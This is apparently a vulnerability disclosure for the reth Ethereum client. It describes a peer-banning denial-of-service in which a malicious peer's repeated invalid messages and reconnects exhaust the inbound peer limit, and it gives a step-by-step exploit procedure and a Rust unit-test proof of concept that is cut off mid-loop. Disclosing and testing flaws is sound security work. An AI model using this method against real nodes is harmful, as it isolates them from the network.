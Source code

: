 * "Shutdown of less than 10% of network processing nodes without brute force actions, but does not shut down the network" - No new incoming peers will be accepted, so this processing node could potentially no longer propagate or receive new transactions, effectively shutting down the node

## References

https://github.com/paradigmxyz/reth/blob/v1.1.5/crates/net/network/src/peers.rs

## Link to Proof of Concept

[https://gist.github.com/blobism/82618bf98ee87add058670492d9b5d0b](https://gist.github.com/blobism/82618bf98ee87add058670492d9b5d0b)

## Proof of Concept

## Proof of Concept

The exploit follows this procedure:

1. Start a normal reth node (the target)
2. Start a malicious node
3. The normal reth node adds the malicious node as a peer
4. The malicious node repeatedly sends an invalid message, then reconnects, until it passes the banned threshold
5. The malicious node keeps trying to reconnect, incrementing the incoming peer counter until the DoS condition is reached

### Unit Test PoC

This PoC unit test should be added to `crates/net/network/src/peers.rs`:

```rust
#[tokio::test]
async fn test_ban_dos_bug() {
    let peer = PeerId::random();
    let socket_addr = SocketAddr::new(IpAddr::V4(Ipv4Addr::new(127, 0, 1, 2)), 8008);
    let config = PeersConfig::test().with_max_inbound(3);
    let mut peers = PeersManager::new(config);
    peers.add_peer(peer, PeerAddr::from_tcp(socket_addr), None);

    match event!(peers) {
        PeerAction::PeerAdded(peer_id) => {
            assert_eq!(peer_id, peer);
        }
        _ => unreachable!(),
    }
    match event!(peers) {
        PeerAction::Connect { peer_id, .. } => {
            assert_eq!(peer_id, peer);
        }
        _ => unreachable!(),
    }

    poll_fn(|cx| {
        assert!(peers.poll(cx).is_pending());
        Poll::Ready(())
    })
    .await;

    // get peer.is_banned() to be true without ending up on the ban_list
    loop {
        peers.on_active_session_dropped(
            &socket_addr,
            &peer,
```
